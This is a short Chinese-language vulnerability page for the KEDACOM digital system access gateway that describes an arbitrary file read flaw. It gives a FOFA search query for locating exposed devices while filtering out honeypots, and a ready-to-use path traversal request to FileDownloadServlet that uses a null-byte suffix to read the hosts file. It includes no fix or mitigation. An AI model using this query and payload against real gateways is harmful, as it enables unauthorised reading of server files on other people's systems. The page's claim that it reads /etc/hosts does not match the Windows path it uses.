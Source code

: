 # KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>KEDACOM 数字系统接入网关</a-checkbox></br>

## FOFA

<a-checkbox checked>(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ked-1.png)



使用POC读取 /etc/hosts



```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```



![img](../../../.vuepress/public/img/ked-2.png)

